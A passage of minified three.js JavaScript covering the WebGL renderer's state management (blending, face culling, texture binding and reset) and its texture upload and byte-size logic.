o=0;o<i;o++)e===t.TEXTURE_3D||e===t.TEXTURE_2D_ARRAY?t.texImage3D(n,0,t.RGBA,1,1,r,0,t.RGBA,t.UNSIGNED_BYTE,a):t.texImage2D(n+o,0,t.RGBA,1,1,0,t.RGBA,t.UNSIGNED_BYTE,a);return o}const nt={};function it(e){!0!==o[e]&&(t.enable(e),o[e]=!0)}function rt(e){!1!==o[e]&&(t.disable(e),o[e]=!1)}nt[t.TEXTURE_2D]=et(t.TEXTURE_2D,t.TEXTURE_2D,1),nt[t.TEXTURE_CUBE_MAP]=et(t.TEXTURE_CUBE_MAP,t.TEXTURE_CUBE_MAP_POSITIVE_X,6),nt[t.TEXTURE_2D_ARRAY]=et(t.TEXTURE_2D_ARRAY,t.TEXTURE_2D_ARRAY,1,1),nt[t.TEXTURE_3D]=et(t.TEXTURE_3D,t.TEXTURE_3D,1,1),e.setClear(0,0,0,1),n.setClear(1),i.setClear(0),it(t.DEPTH_TEST),n.setFunc(3),lt(!1),ct(1),it(t.CULL_FACE),st(0);const at={[f]:t.FUNC_ADD,[m]:t.FUNC_SUBTRACT,[g]:t.FUNC_REVERSE_SUBTRACT};at[103]=t.MIN,at[104]=t.MAX;const ot={[_]:t.ZERO,[v]:t.ONE,[y]:t.SRC_COLOR,[b]:t.SRC_ALPHA,[A]:t.SRC_ALPHA_SATURATE,[w]:t.DST_COLOR,[S]:t.DST_ALPHA,[x]:t.ONE_MINUS_SRC_COLOR,[M]:t.ONE_MINUS_SRC_ALPHA,[T]:t.ONE_MINUS_DST_COLOR,[E]:t.ONE_MINUS_DST_ALPHA,[C]:t.CONSTANT_COLOR,[R]:t.ONE_MINUS_CONSTANT_COLOR,[P]:t.CONSTANT_ALPHA,[L]:t.ONE_MINUS_CONSTANT_ALPHA};function st(e,n,i,r,a,o,s,l,c,h){if(0!==e){if(!1===u&&(it(t.BLEND),u=!0),5===e)a=a||n,o=o||i,s=s||r,n===p&&a===O||(t.blendEquationSeparate(at[n],at[a]),p=n,O=a),i===D&&r===I&&o===U&&s===N||(t.blendFuncSeparate(ot[i],ot[r],ot[o],ot[s]),D=i,I=r,U=o,N=s),!1!==l.equals(F)&&c===k||(t.blendColor(l.r,l.g,l.b,c),F.copy(l),k=c),d=e,z=!1;else if(e!==d||h!==z){if(p===f&&O===f||(t.blendEquation(t.FUNC_ADD),p=f,O=f),h)switch(e){case 1:t.blendFuncSeparate(t.ONE,t.ONE_MINUS_SRC_ALPHA,t.ONE,t.ONE_MINUS_SRC_ALPHA);break;case 2:t.blendFunc(t.ONE,t.ONE);break;case 3:t.blendFuncSeparate(t.ZERO,t.ONE_MINUS_SRC_COLOR,t.ZERO,t.ONE);break;case 4:t.blendFuncSeparate(t.ZERO,t.SRC_COLOR,t.ZERO,t.SRC_ALPHA);break;default:console.error(\"THREE.WebGLState: Invalid blending: \",e)}else switch(e){case 1:t.blendFuncSeparate(t.SRC_ALPHA,t.ONE_MINUS_SRC_ALPHA,t.ONE,t.ONE_MINUS_SRC_ALPHA);break;case 2:t.blendFunc(t.SRC_ALPHA,t.ONE);break;case 3:t.blendFuncSeparate(t.ZERO,t.ONE_MINUS_SRC_COLOR,t.ZERO,t.ONE);break;case 4:t.blendFunc(t.ZERO,t.SRC_COLOR);break;default:console.error(\"THREE.WebGLState: Invalid blending: \",e)}D=null,I=null,U=null,N=null,F.set(0,0,0),k=0,d=e,z=h}}else!0===u&&(rt(t.BLEND),u=!1)}function lt(e){B!==e&&(e?t.frontFace(t.CW):t.frontFace(t.CCW),B=e)}function ct(e){0!==e?(it(t.CULL_FACE),e!==H&&(1===e?t.cullFace(t.BACK):2===e?t.cullFace(t.FRONT):t.cullFace(t.FRONT_AND_BACK))):rt(t.CULL_FACE),H=e}function ht(e,n,i){e?(it(t.POLYGON_OFFSET_FILL),G===n&&j===i||(t.polygonOffset(n,i),G=n,j=i)):rt(t.POLYGON_OFFSET_FILL)}return{buffers:{color:e,depth:n,stencil:i},enable:it,disable:rt,bindFramebuffer:function(e,n){return s[e]!==n&&(t.bindFramebuffer(e,n),s[e]=n,e===t.DRAW_FRAMEBUFFER&&(s[t.FRAMEBUFFER]=n),e===t.FRAMEBUFFER&&(s[t.DRAW_FRAMEBUFFER]=n),!0)},drawBuffers:function(e,n){let i=c,r=!1;if(e){i=l.get(n),void 0===i&&(i=[],l.set(n,i));const a=e.textures;if(i.length!==a.length||i[0]!==t.COLOR_ATTACHMENT0){for(let e=0,n=a.length;e<n;e++)i[e]=t.COLOR_ATTACHMENT0+e;i.length=a.length,r=!0}}else i[0]!==t.BACK&&(i[0]=t.BACK,r=!0);r&&t.drawBuffers(i)},useProgram:function(e){return h!==e&&(t.useProgram(e),h=e,!0)},setBlending:st,setMaterial:function(r,a){2===r.side?rt(t.CULL_FACE):it(t.CULL_FACE);let o=1===r.side;a&&(o=!o),lt(o),1===r.blending&&!1===r.transparent?st(0):st(r.blending,r.blendEquation,r.blendSrc,r.blendDst,r.blendEquationAlpha,r.blendSrcAlpha,r.blendDstAlpha,r.blendColor,r.blendAlpha,r.premultipliedAlpha),n.setFunc(r.depthFunc),n.setTest(r.depthTest),n.setMask(r.depthWrite),e.setMask(r.colorWrite);const s=r.stencilWrite;i.setTest(s),s&&(i.setMask(r.stencilWriteMask),i.setFunc(r.stencilFunc,r.stencilRef,r.stencilFuncMask),i.setOp(r.stencilFail,r.stencilZFail,r.stencilZPass)),ht(r.polygonOffset,r.polygonOffsetFactor,r.polygonOffsetUnits),!0===r.alphaToCoverage?it(t.SAMPLE_ALPHA_TO_COVERAGE):rt(t.SAMPLE_ALPHA_TO_COVERAGE)},setFlipSided:lt,setCullFace:ct,setLineWidth:function(e){e!==V&&(X&&t.lineWidth(e),V=e)},setPolygonOffset:ht,setScissorTest:function(e){e?it(t.SCISSOR_TEST):rt(t.SCISSOR_TEST)},activeTexture:function(e){void 0===e&&(e=t.TEXTURE0+W-1),K!==e&&(t.activeTexture(e),K=e)},bindTexture:function(e,n,i){void 0===i&&(i=null===K?t.TEXTURE0+W-1:K);let r=Z[i];void 0===r&&(r={type:void 0,texture:void 0},Z[i]=r),r.type===e&&r.texture===n||(K!==i&&(t.activeTexture(i),K=i),t.bindTexture(e,n||nt[e]),r.type=e,r.texture=n)},unbindTexture:function(){const e=Z[K];void 0!==e&&void 0!==e.type&&(t.bindTexture(e.type,null),e.type=void 0,e.texture=void 0)},compressedTexImage2D:function(){try{t.compressedTexImage2D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},compressedTexImage3D:function(){try{t.compressedTexImage3D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},texImage2D:function(){try{t.texImage2D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},texImage3D:function(){try{t.texImage3D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},updateUBOMapping:function(e,n){let i=a.get(n);void 0===i&&(i=new WeakMap,a.set(n,i));let r=i.get(e);void 0===r&&(r=t.getUniformBlockIndex(n,e.name),i.set(e,r))},uniformBlockBinding:function(e,n){const i=a.get(n).get(e);r.get(n)!==i&&(t.uniformBlockBinding(n,i,e.__bindingPointIndex),r.set(n,i))},texStorage2D:function(){try{t.texStorage2D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},texStorage3D:function(){try{t.texStorage3D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},texSubImage2D:function(){try{t.texSubImage2D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},texSubImage3D:function(){try{t.texSubImage3D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},compressedTexSubImage2D:function(){try{t.compressedTexSubImage2D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},compressedTexSubImage3D:function(){try{t.compressedTexSubImage3D.apply(t,arguments)}catch(t){console.error(\"THREE.WebGLState:\",t)}},scissor:function(e){!1===Q.equals(e)&&(t.scissor(e.x,e.y,e.z,e.w),Q.copy(e))},viewport:function(e){!1===tt.equals(e)&&(t.viewport(e.x,e.y,e.z,e.w),tt.copy(e))},reset:function(){t.disable(t.BLEND),t.disable(t.CULL_FACE),t.disable(t.DEPTH_TEST),t.disable(t.POLYGON_OFFSET_FILL),t.disable(t.SCISSOR_TEST),t.disable(t.STENCIL_TEST),t.disable(t.SAMPLE_ALPHA_TO_COVERAGE),t.blendEquation(t.FUNC_ADD),t.blendFunc(t.ONE,t.ZERO),t.blendFuncSeparate(t.ONE,t.ZERO,t.ONE,t.ZERO),t.blendColor(0,0,0,0),t.colorMask(!0,!0,!0,!0),t.clearColor(0,0,0,0),t.depthMask(!0),t.depthFunc(t.LESS),t.clearDepth(1),t.stencilMask(4294967295),t.stencilFunc(t.ALWAYS,0,4294967295),t.stencilOp(t.KEEP,t.KEEP,t.KEEP),t.clearStencil(0),t.cullFace(t.BACK),t.frontFace(t.CCW),t.polygonOffset(0,0),t.activeTexture(t.TEXTURE0),t.bindFramebuffer(t.FRAMEBUFFER,null),t.bindFramebuffer(t.DRAW_FRAMEBUFFER,null),t.bindFramebuffer(t.READ_FRAMEBUFFER,null),t.useProgram(null),t.lineWidth(1),t.scissor(0,0,t.canvas.width,t.canvas.height),t.viewport(0,0,t.canvas.width,t.canvas.height),o={},K=null,Z={},s={},l=new WeakMap,c=[],h=null,u=!1,d=null,p=null,D=null,I=null,O=null,U=null,N=null,F=new di(0,0,0),k=0,z=!1,B=null,H=null,V=null,G=null,j=null,Q.set(0,0,t.canvas.width,t.canvas.height),tt.set(0,0,t.canvas.width,t.canvas.height),e.reset(),n.reset(),i.reset()}}}function Ko(t,e,n,i){const r=function(t){switch(t){case j:case W:return{byteLength:1,components:1};case q:case X:case $:return{byteLength:2,components:1};case J:case Q:return{byteLength:2,components:4};case K:case Y:case Z:return{byteLength:4,components:1};case et:return{byteLength:4,components:3}}throw new Error(`Unknown texture type ${t}.`)}(i);switch(n){case 1021:case 1024:return t*e;case 1025:return t*e*2;case 1028:case at:return t*e/r.components*r.byteLength;case 1030:case ot:return t*e*2/r.components*r.byteLength;case 1022:return t*e*3/r.components*r.byteLength;case nt:case st:return t*e*4/r.components*r.byteLength;case lt:case ct:return Math.floor((t+3)/4)*Math.floor((e+3)/4)*8;case ht:case ut:return Math.floor((t+3)/4)*Math.floor((e+3)/4)*16;case pt:case mt:return Math.max(t,16)*Math.max(e,8)/4;case dt:case ft:return Math.max(t,8)*Math.max(e,8)/2;case gt:case _t:return Math.floor((t+3)/4)*Math.floor((e+3)/4)*8;case vt:case yt:return Math.floor((t+3)/4)*Math.floor((e+3)/4)*16;case xt:return Math.floor((t+4)/5)*Math.floor((e+3)/4)*16;case bt:return Math.floor((t+4)/5)*Math.floor((e+4)/5)*16;case Mt:return Math.floor((t+5)/6)*Math.floor((e+4)/5)*16;case St:return Math.floor((t+5)/6)*Math.floor((e+5)/6)*16;case Et:return Math.floor((t+7)/8)*Math.floor((e+4)/5)*16;case wt:return Math.floor((t+7)/8)*Math.floor((e+5)/6)*16;case Tt:return Math.floor((t+7)/8)*Math.floor((e+7)/8)*16;case At:return Math.floor((t+9)/10)*Math.floor((e+4)/5)*16;case Ct:return Math.floor((t+9)/10)*Math.floor((e+5)/6)*16;case Rt:return Math.floor((t+9)/10)*Math.floor((e+7)/8)*16;case Pt:return Math.floor((t+9)/10)*Math.floor((e+9)/10)*16;case Lt:return Math.floor((t+11)/12)*Math.floor((e+9)/10)*16;case Dt:return Math.floor((t+11)/12)*Math.floor((e+11)/12)*16;case It:case Ot:case Ut:return Math.ceil(t/4)*Math.ceil(e/4)*16;case 36283:case Nt:return Math.ceil(t/4)*Math.ceil(e/4)*8;case Ft:case kt:return Math.ceil(t/4)*Math.ceil(e/4)*16}throw new Error(`Unable to determine texture byte length for ${n} format.`)}function Zo(t,e,n,i,r,a,o){const s=e.has(\"WEBGL_multisampled_render_to_texture\")?e.get(\"WEBGL_multisampled_render_to_texture\"):null,l=\"undefined\"!=typeof navigator&&/OculusBrowser/g.test(navigator.userAgent),c=new ve,h=new WeakMap;let u;const d=new WeakMap;let p=!1;try{p=\"undefined\"!=typeof OffscreenCanvas&&null!==new OffscreenCanvas(1,1).getContext(\"2d\")}catch(t){}function f(t,e){return p?new OffscreenCanvas(t,e):Me(\"canvas\")}function m(t,e,n){let i=1;const r=Q(t);if((r.width>n||r.height>n)&&(i=n/Math.max(r.width,r.height)),i<1){if(\"undefined\"!=typeof HTMLImageElement&&t instanceof HTMLImageElement||\"undefined\"!=typeof HTMLCanvasElement&&t instanceof HTMLCanvasElement||\"undefined\"!=typeof ImageBitmap&&t instanceof ImageBitmap||\"undefined\"!=typeof VideoFrame&&t instanceof VideoFrame){const n=Math.floor(i*r.width),a=Math.floor(i*r.height);void 0===u&&(u=f(n,a));const o=e?f(n,a):u;o.width=n,o.height=a;return o.getContext(\"2d\").drawImage(t,0,0,n,a),console.warn(\"THREE.WebGLRenderer: Texture has been resized from (\"+r.width+\"x\"+r.height+\") to (\"+n+\"x\"+a+\").\"),o}return\"data\"in t&&console.warn(\"THREE.WebGLRenderer: Image in DataTexture is too big (\"+r.width+\"x\"+r.height+\").\"),t}return t}function g(t){return t.generateMipmaps&&t.minFilter!==k&&t.minFilter!==H}function _(e){t.generateMipmap(e)}function v(n,i,r,a,o=!1){if(null!==n){if(void 0!==t[n])return t[n];console.warn(\"THREE.WebGLRenderer: Attempt to use non-existing WebGL internal format '\"+n+\"'\")}let s=i;if(i===t.RED&&(r===t.FLOAT&&(s=t.R32F),r===t.HALF_FLOAT&&(s=t.R16F),r===t.UNSIGNED_BYTE&&(s=t.R8)),i===t.RED_INTEGER&&(r===t.UNSIGNED_BYTE&&(s=t.R8UI),r===t.UNSIGNED_SHORT&&(s=t.R16UI),r===t.UNSIGNED_INT&&(s=t.R32UI),r===t.BYTE&&(s=t.R8I),r===t.SHORT&&(s=t.R16I),r===t.INT&&(s=t.R32I)),i===t.RG&&(r===t.FLOAT&&(s=t.RG32F),r===t.HALF_FLOAT&&(s=t.RG16F),r===t.UNSIGNED_BYTE&&(s=t.RG8)),i===t.RG_INTEGER&&(r===t.UNSIGNED_BYTE&&(s=t.RG8UI),r===t.UNSIGNED_SHORT&&(s=t.RG16UI),r===t.UNSIGNED_INT&&(s=t.RG32UI),r===t.BYTE&&(s=t.RG8I),r===t.SHORT&&(s=t.RG16I),r===t.INT&&(s=t.RG32I)),i===t.RGB&&r===t.UNSIGNED_INT_5_9_9_9_REV&&(s=t.RGB9_E5),i===t.RGBA){const e=o?jt:Pe.getTransfer(a);r===t.FLOAT&&(s=t.RGBA32F),r===t.HALF_FLOAT&&(s=t.RGBA16F),r===t.UNSIGNED_BYTE&&(s=e===Wt?t.SRGB8_ALPHA8:t.RGBA8),r===t.UNSIGNED_SHORT_4_4_4_4&&(s=t.RGBA4),r===t.UNSIGNED_SHORT_5_5_5_1&&(s=t.RGB5_A1)}return s!==t.R16F&&s!==t.R32F&&s!==t.RG16F&&s!==t.RG32F&&s!==t.RGBA16F&&s!==t.RGBA32F||e.get(\"EXT_color_buffer_float\"),s}function y(e,n){let i;return e?null===n||n===K||n===tt?i=t.DEPTH24_STENCIL8:n===Z?i=t.DEPTH32F_STENCIL8:n===q&&(i=t.DEPTH24_STENCIL8,console.warn(\"DepthTexture: 16 bit depth attachment is not supported with stencil. Using 24-bit attachment.\")):null===n||n===K||n===tt?i=t.DEPTH_COMPONENT24:n===Z?i=t.DEPTH_COMPONENT32F:n===q&&(i=t.DEPTH_COMPONENT16),i}function x(t,e){return!0===g(t)||t.isFramebufferTexture&&t.minFilter!==k&&t.minFilter!==H?Math.log2(Math.max(e.width,e.height))+1:void 0!==t.mipmaps&&t.mipmaps.length>0?t.mipmaps.length:t.isCompressedTexture&&Array.isArray(t.image)?e.mipmaps.length:1}function b(t){const e=t.target;e.removeEventListener(\"dispose\",b),function(t){const e=i.get(t);if(void 0===e.__webglInit)return;const n=t.source,r=d.get(n);if(r){const i=r[e.__cacheKey];i.usedTimes--,0===i.usedTimes&&S(t),0===Object.keys(r).length&&d.delete(n)}i.remove(t)}(e),e.isVideoTexture&&h.delete(e)}function M(e){const n=e.target;n.removeEventListener(\"dispose\",M),function(e){const n=i.get(e);e.depthTexture&&e.depthTexture.dispose();if(e.isWebGLCubeRenderTarget)for(let e=0;e<6;e++){if(Array.isArray(n.__webglFramebuffer[e]))for(let i=0;i<n.__webglFramebuffer[e].length;i++)t.deleteFramebuffer(n.__webglFramebuffer[e][i]);else t.deleteFramebuffer(n.__webglFramebuffer[e]);n.__webglDepthbuffer&&t.deleteRenderbuffer(n.__webglDepthbuffer[e])}else{if(Array.isArray(n.__webglFramebuffer))for(let e=0;e<n.__webglFramebuffer.length;e++)t.deleteFramebuffer(n.__webglFramebuffer[e]);else t.deleteFramebuffer(n.__webglFramebuffer);if(n.__webglDepthbuffer&&t.deleteRenderbuffer(n.__webglDepthbuffer),n.__webglMultisampledFramebuffer&&t.deleteFramebuffer(n.__webglMultisampledFramebuffer),n.__webglColorRenderbuffer)for(let e=0;e<n.__webglColorRenderbuffer.length;e++)n.__webglColorRenderbuffer[e]&&t.deleteRenderbuffer(n.__webglColorRenderbuffer[e]);n.__webglDepthRenderbuffer&&t.deleteRenderbuffer(n.__webglDepthRenderbuffer)}const r=e.textures;for(let e=0,n=r.length;e<n;e++){const n=i.get(r[e]);n.__webglTexture&&(t.deleteTexture(n.__webglTexture),o.memory.textures--),i.remove(r[e])}i.remove(e)}(n)}function S(e){const n=i.get(e);t.deleteTexture(n.__webglTexture);const r=e.source;delete d.get(r)[n.__cacheKey],o.memory.textures--}let E=0;function w(e,r){const a=i.get(e);if(e.isVideoTexture&&function(t){const e=o.render.frame;h.get(t)!==e&&(h.set(t,e),t.update())}(e),!1===e.isRenderTargetTexture&&e.version>0&&a.__version!==e.version){const t=e.image;if(null===t)console.warn(\"THREE.WebGLRenderer: Texture marked for update but no image data found.\");else{if(!1!==t.complete)return void L(a,e,r);console.warn(\"THREE.WebGLRenderer: Texture marked for update but image is incomplete\")}}n.bindTexture(t.TEXTURE_2D,a.__webglTexture,t.TEXTURE0+r)}const T={[U]:t.REPEAT,[N]:t.CLAMP_TO_EDGE,[F]:t.MIRRORED_REPEAT},A={[k]:t.NEAREST,[z]:t.NEAREST_MIPMAP_NEAREST,[B]:t.NEAREST_MIPMAP_LINEAR,[H]:t.LINEAR,[V]:t.LINEAR_MIPMAP_NEAREST,[G]:t.LINEAR_MIPMAP_LINEAR},C={[Kt]:t.NEVER,[ne]:t.ALWAYS,[Zt]:t.LESS,[Jt]:t.LEQUAL,[$t]:t.EQUAL,[ee]:t.GEQUAL,[Qt]:t.GREATER,[te]:t.NOTEQUAL};function R(n,a){if(a.type!==Z||!1!==e.has(\"OES_texture_float_linear\")||a.magFilter!==H&&a.magFilter!==V&&a.magFilter!==B&&a.magFilter!==G&&a.minFilter!==H&&a.minFilter!==V&&a.minFilter!==B&&a.minFilter!==G||console.warn(\"THREE.WebGLRenderer: Unable to use linear filtering with floating point textures. OES_texture_float_linear not supported on this device.\"),t.texParameteri(n,t.TEXTURE_WRAP_S,T[a.wrapS]),t.texParameteri(n,t.TEXTURE_WRAP_T,T[a.wrapT]),n!==t.TEXTURE_3D&&n!==t.TEXTURE_2D_ARRAY||t.texParameteri(n,t.TEXTURE_WRAP_R,T[a.wrapR]),t.texParameteri(n,t.TEXTURE_MAG_FILTER,A[a.magFilter]),t.texParameteri(n,t.TEXTURE_MIN_FILTER,A[a.minFilter]),a.compareFunction&&(t.texParameteri(n,t.TEXTURE_COMPARE_MODE,t.COMPARE_REF_TO_TEXTURE),t.texParameteri(n,t.TEXTURE_COMPARE_FUNC,C[a.compareFunction])),!0===e.has(\"EXT_texture_filter_anisotropic\")){if(a.magFilter===k)return;if(a.minFilter!==B&&a.minFilter!==G)return;if(a.type===Z&&!1===e.has(\"OES_texture_float_linear\"))return;if(a.anisotropy>1||i.get(a).__currentAnisotropy){const o=e.get(\"EXT_texture_filter_anisotropic\");t.texParameterf(n,o.TEXTURE_MAX_ANISOTROPY_EXT,Math.min(a.anisotropy,r.getMaxAnisotropy())),i.get(a).__currentAnisotropy=a.anisotropy}}}function P(e,n){let i=!1;void 0===e.__webglInit&&(e.__webglInit=!0,n.addEventListener(\"dispose\",b));const r=n.source;let a=d.get(r);void 0===a&&(a={},d.set(r,a));const s=function(t){const e=[];return e.push(t.wrapS),e.push(t.wrapT),e.push(t.wrapR||0),e.push(t.magFilter),e.push(t.minFilter),e.push(t.anisotropy),e.push(t.internalFormat),e.push(t.format),e.push(t.type),e.push(t.generateMipmaps),e.push(t.premultiplyAlpha),e.push(t.flipY),e.push(t.unpackAlignment),e.push(t.colorSpace),e.join()}(n);if(s!==e.__cacheKey){void 0===a[s]&&(a[s]={texture:t.createTexture(),usedTimes:0},o.memory.textures++,i=!0),a[s].usedTimes++;const r=a[e.__cacheKey];void 0!==r&&(a[e.__cacheKey].usedTimes--,0===r.usedTimes&&S(n)),e.__cacheKey=s,e.__webglTexture=a[s].texture}return i}function L(e,o,s){let l=t.TEXTURE_2D;(o.isDataArrayTexture||o.isCompressedArrayTexture)&&(l=t.TEXTURE_2D_ARRAY),o.isData3DTexture&&(l=t.TEXTURE_3D);const c=P(e,o),h=o.source;n.bindTexture(l,e.__webglTexture,t.TEXTURE0+s);const u=i.get(h);if(h.version!==u.__version||!0===c){n.activeTexture(t.TEXTURE0+s);const e=Pe.getPrimaries(Pe.workingColorSpace),i=o.colorSpace===zt?null:Pe.getPrimaries(o.colorSpace),d=o.colorSpace===zt||e===i?t.NONE:t.BROWSER_DEFAULT_WEBGL;t.pixelStorei(t.UNPACK_FLIP_Y_WEBGL,o.flipY),t.pixelStorei(t.UNPACK_PREMULTIPLY_ALPHA_WEBGL,o.premultiplyAlpha),t.pixelStorei(t.UNPACK_ALIGNMENT,o.unpackAlignment),t.pixelStorei(t.UNPACK_COLORSPACE_CONVERSION_WEBGL,d);let p=m(o.image,!1,r.maxTextureSize);p=J(o,p);const f=a.convert(o.format,o.colorSpace),b=a.convert(o.type);let M,S=v(o.internalFormat,f,b,o.colorSpace,o.isVideoTexture);R(l,o);const E=o.mipmaps,w=!0!==o.isVideoTexture,T=void 0===u.__version||!0===c,A=h.dataReady,C=x(o,p);if(o.isDepthTexture)S=y(o.format===rt,o.type),T&&(w?n.texStorage2D(t.TEXTURE_2D,1,S,p.width,p.height):n.texImage2D(t.TEXTURE_2D,0,S,p.width,p.height,0,f,b,null));else if(o.isDataTexture)if(E.length>0){w&&T&&n.texStorage2D(t.TEXTURE_2D,C,S,E[0].width,E[0].height);for(let e=0,i=E.length;e<i;e++)M=E[e],w?A&&n.texSubImage2D(t.TEXTURE_2D,e,0,0,M.width,M.height,f,b,M.data):n.texImage2D(t.TEXTURE_2D,e,S,M.width,M.height,0,f,b,M.data);o.generateMipmaps=!1}else w?(T&&n.texStorage2D(t.TEXTURE_2D,C,S,p.width,p.height),A&&n.texSubImage2D(t.TEXTURE_2D,0,0,0,p.width,p.height,f,b,p.data)):n.texImage2D(t.TEXTURE_2D,0,S,p.width,p.height,0,f,b,p.data);else if(o.isCompressedTexture)if(o.isCompressedArrayTexture){w&&T&&n.texStorage3D(t.TEXTURE_2D_ARRAY,C,S,E[0].width,E[0].height,p.depth);for(let e=0,i=E.length;e<i;e++)if(M=E[e],o.format!==nt)if(null!==f)if(w){if(A)if(o.layerUpdates.size>0){const i=Ko(M.width,M.height,o.format,o.type);for(const r of o.layerUpdates){const a=M.data.subarray(r*i/M.data.BYTES_PER_ELEMENT,(r+1)*i/M.data.BYTES_PER_ELEMENT);n.compressedTexSubImage3D(t.TEXTURE_2D_ARRAY,e,0,0,r,M.width,M.height,1,f,a,0,0)}o.clearLayerUpdates()}else n.compressedTexSubImage3D(t.TEXTURE_2D_ARRAY,e,0,0,0,M.width,M.height,p.depth,f,M.data,0,0)}else n.compressedTexImage3D(t.TEXTURE_2D_ARRAY,e,S,M.width,M.height,p.depth,0,M.data,0,0);else console.warn(\"THREE.WebGLRenderer: Attempt to load unsupported compressed texture format in .uploadTexture()\");else w?A&&n.texSubImage3D(t.TEXTURE_2D_ARRAY,e,0,0,0,M.width,M.height,p.depth,f,b,M.data):n.texImage3D(t.TEXTURE_2D_ARRAY,e,S,M.width,M.height,p.depth,0,f,b,M.data)}else{w&&T&&n.texStorage2D(t.TEXTURE_2D,C,S,E[0].width,E[0].height);for(let e=0,i=E.length;e<i;e++)M=E[e],o.format!==nt?null!==f?w?A&&n.compressedTexSubImage2D(t.TEXTURE_2D,e,0,0,M.width,M.height,f,M.data):n.compressedTexImage2D(t.TEXTURE_2D,e,S,M.width,M.height,0,M.data):console.warn(\"THREE.WebGLRenderer: Attempt to load unsupported compressed texture format in .uploadTexture()\"):w?A&&n.texSubImage2D(t.TEXTURE_2D,e,0,0,M.width,M.height,f,b,M.data):n.texImage2D(t.TEXTURE_2D,e,S,M.width,M.height,0,f,b,M.data)}else if(o.isDataArrayTexture)if(w){if(T&&n.texStorage3D(t.TEXTURE_2D_ARRAY,C,S,p.width,p.height,p.depth),A)if(o.layerUpdates.size>0){const e=Ko(p.width,p.height,o.format,o.type);for(const i of o.layerUpdates){const r=p.data.subarray(i*e/p.data.BYTES_PER_ELEMENT,(i+1)*e/p.data.BYTES_PER_ELEMENT);n.texSubImage3D(t.TEXTURE_2D_ARRAY,0,0,0,i,p.width,p.height,1,f,b,r)}o.clearLayerUpdates()}else n.texSubImage3D(t.TEXTURE_2D_ARRAY,0,0,0,0,p.width,p.height,p.depth,f,b,p.data)}else n.texImage3D(t.TEXTURE_2D_ARRAY,0,S,p.width,p.height,p.depth,0,f,b,p.data);else if(o.isData3DTexture)w?(T&&n.texStorage3D(t.TEXTURE_3D,C,S,p.width,p.height,p.depth),A&&n.texSubImage3D(t.TEXTURE_3D,0,0,0,0,p.width,p.height,p.depth,f,b,p.data)):n.texImage3D(t.TEXTURE_3D,0,S,p.width,p.height,p.depth,0,f,b,p.data);else if(o.isFramebufferTexture){if(T)if(w)n.texStorage2D(t.TEXTURE_2D,C,S,p.width,p.height);else{let e=p.width,i=p.height;for(let r=0;r<C;r++)n.texImage2D(t.TEXTURE_2D,r,S,e,i,0,f,b,null),e>>=1,i>>=1}}else if(E.length>0){if(w&&T){const e=Q(E[0]);n.texStorage2D(t.TEXTURE_2D,C,S,e.width,e.height)}for(let e=0,i=E.length;e<i;e++)M=E[e],w?A&&n.texSubImage2D(t.TEXTURE_2D,e,0,0,f,b,M):n.texImage2D(t.TEXTURE_2D,e,S,f,b,M);o.generateMipmaps=!1}else if(w){if(T){const e=Q(p);n.texStorage2D(t.TEXTURE_2D,C,S,e.width,e.height)}A&&n.texSubImage2D(t.TEXTURE_2D,0,0,0,f,b,p)}else n.texImage2D(t.TEXTURE_2D,0,S,f,b,p);g(o)&&_(l),u.__version=h.version,o.onUpdate&&o.onUpdate(o)}e.__version=o.version}function D(e,r,o,l,c,h){const u=a.convert(o.format,o.colorSpace),d=a.convert(o.type),p=v(o.internalFormat,u,d,o.colorSpace);if(!i.get(r).__hasExternalTextures){const e=Math.max(1,r.width>>h),i=Math.max(1,r.height>>h);c===t.TEXTURE_3D||c===t.TEXTURE_2D_ARRAY?n.texImage3D(c,h,p,e,i,r.depth,0,u,d,null):n.texImage2D(c,h,p,e,i,0,u,d,null)}n.bindFramebuffer(t.FRAMEBUFFER,e),$(r)?s.framebufferTexture2DMultisampleEXT(t.FRAMEBUFFER,l,c,i.get(o).__webglTexture,0,Y(r)):(c===t.TEXTURE_2D||c>=t.TEXTURE_CUBE_MAP_POSITIVE_X&&c<=t.TEXTURE_CUBE_MAP_NEGATIVE_Z)&&t.framebufferTexture2D(t.FRAMEBUFFER,l,c,i.get(o).__webglTexture,h),n.bindFramebuffer(t.FRAMEBUFFER,null)}function I(e,n,i){if(t.bindRenderbuffer(t.RENDERBUFFER,e),n.depthBuffer){const r=n.depthTexture,a=r&&r.isDepthTexture?r.type:null,o=y(n.stencilBuffer,a),l=n.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT,c=Y(n);$(n)?s.renderbufferStorageMultisampleEXT(t.RENDERBUFFER,c,o,n.width,n.height):i?t.renderbufferStorageMultisample(t.RENDERBUFFER,c,o,n.width,n.height):t.renderbufferStorage(t.RENDERBUFFER,o,n.width,n.height),t.framebufferRenderbuffer(t.FRAMEBUFFER,l,t.RENDERBUFFER,e)}else{const e=n.textures;for(let r=0;r<e.length;r++){const o=e[r],l=a.convert(o.format,o.colorSpace),c=a.convert(o.type),h=v(o.internalFormat,l,c,o.colorSpace),u=Y(n);i&&!1===$(n)?t.renderbufferStorageMultisample(t.RENDERBUFFER,u,h,n.width,n.height):$(n)?s.renderbufferStorageMultisampleEXT(t.RENDERBUFFER,u,h,n.width,n.height):t.renderbufferStorage(t.RENDERBUFFER,h,n.width,n.height)}}t.bindRenderbuffer(t.RENDERBUFFER,null)}function O(e){const r=i.get(e),a=!0===e.isWebGLCubeRenderTarget;if(r.__boundDepthTexture!==e.depthTexture){const t=e.depthTexture;if(r.__depthDisposeCallback&&r.__depthDisposeCallback(),t){const e=()=>{delete r.__boundDepthTexture,delete r.__depthDisposeCallback,t.removeEventListener(\"dispose\",e)};t.addEventListener(\"dispose\",e),r.__depthDisposeCallback=e}r.__boundDepthTexture=t}if(e.depthTexture&&!r.__autoAllocateDepthBuffer){if(a)throw new Error(\"target.depthTexture not supported in Cube render targets\");!function(e,r){if(r&&r.isWebGLCubeRenderTarget)throw new Error(\"Depth Texture with cube render targets is not 